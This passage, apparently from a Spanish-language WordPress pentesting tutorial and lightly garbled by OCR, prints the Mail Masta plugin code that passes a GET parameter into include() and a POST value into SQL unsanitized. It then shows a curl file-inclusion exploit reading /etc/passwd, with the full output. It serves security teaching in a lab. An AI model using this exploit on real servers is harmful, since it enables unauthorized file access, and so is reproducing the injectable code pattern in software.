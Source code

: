 ```php
<?phpinclude($_GET['pl']);
global $wpdb;

$camp_id=$_POST['camp_id'];
$masta_reports = $wpdb->prefix . "masta_reports";
$count=$wpdb->get_results("SELECT count(*) co from  $masta_reports where camp_id=$camp_id and status=1");

echo $count[0]->co;

?>
```

Como podemos ver, el`pl`El parámetro nos permite incluir un archivo sin ningún tipo de validación de entrada o desinfección. Usando esto, podemos incluir archivos arbitrarios en el servidor web. Explotemos esto para recuperar el contenido del`/etc/passwd`archivo usando`cURL`.

Atacando a WordPress

```
xnoxos@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwdroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false

```
